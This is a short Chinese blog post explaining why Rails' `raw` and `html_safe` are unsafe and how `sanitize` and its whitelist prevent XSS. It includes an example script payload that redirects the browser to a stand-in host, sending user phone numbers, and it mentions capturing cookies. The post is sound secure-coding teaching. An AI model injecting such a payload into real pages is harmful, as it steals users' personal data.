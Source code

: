 ```yaml
---
layout: post
title:  "rails中的 raw, html_safe, sanitize"
date:   2018-09-04 18:10:22 +0800
categories:
---
```

避免使用`raw`和`html_safe`, 安全使用`sanitize`
- ### raw
例如：
{% highlight ruby %}
<%= raw "<script type=\"text/javascript\">window.location.href='http://www.test.com?a=#{User.limit(10).map(&:phone).join(',')}';</script>" %>
{% endhighlight %}
结果：
执行 `script`中的内容，并且查询`User`数据发送给`www.test.com`,如果`www.test.com`是自己的服务器，我们可以在服务器中截取`User`用户数据，比如`cookie`

我们可以看`raw`的源代码，其实就是用`html_safe`实现的
{% highlight ruby %}
def raw(stringish)
  stringish.to_s.html_safe
end
{% endhighlight %}

- ### html_safe

`html_safe`是完全把你的`html`内容原本原样的输出，这种事非常不安全的，把`script`标签的内容输出并执行结果，比如会造成XSS攻击
和`raw`一样，同上

- ### sanitize

`sanitize`的源代码中：
{% highlight ruby %}
self.allowed_tags = Set.new(%w(strong em b i p code pre tt samp kbd var sub
  sup dfn cite big small address hr br div span h1 h2 h3 h4 h5 h6 ul ol li dl dt dd abbr
  acronym a img blockquote del ins))
self.allowed_attributes = Set.new(%w(href src width height alt cite datetime title class name xml:lang abbr))
{% endhighlight %}

我们可以看到，`sanitize`是有默认的白名单，把一些危险的标签给去除掉，相对`html_safe`安全很多
也可以自己设置白名单
在`config/appliction.rb`中设置：
{% highlight ruby %}
class Application < Rails::Application
 config.action_view.sanitized_allowed_tags = ['table', 'tr', 'td'] #安全的标签
 config.action_view.sanitized_allowed_attributes = ['id', 'class', 'style'] #安全的属性
end
{% endhighlight %}

例如：
{% highlight ruby %}
<%= sanitize "<script type=\"text/javascript\">window.location.href='http://www.test.com?a=#{User.limit(10).map(&:phone).join(',')}';</script>" %>
{% endhighlight %}
结果：
{% highlight ruby %}
window.location.href='http://www.test.com?a=***';
{% endhighlight %}

并不会执行`script`,而是把不是白名单的标签内容输出

不管怎么样，使用`sanitize`就好了，如果有需求也可以自行配置`sanitize`的白名单，比较安全可靠
